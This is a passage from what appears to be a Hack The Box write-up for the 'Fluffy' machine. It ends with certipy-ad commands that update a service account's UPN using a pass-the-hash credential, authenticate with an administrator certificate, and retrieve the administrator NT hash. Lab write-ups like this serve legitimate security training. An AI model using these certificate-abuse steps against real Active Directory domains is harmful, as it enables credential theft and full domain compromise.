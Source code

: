 I restored the UPN for ca_svc since I was having problems authenticating.

```bash
$ certipy-ad account -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -target 'fluffy.htb' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
```

And finally I authenticated using the administrator's certificate.

```bash
$ certipy-ad auth -pfx administrator.pfx -domain fluffy.htb -dc-ip 10.10.11.69
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da[...]a6e
```

I then was able to obtain the administrator hash and therefor rooted the machine.

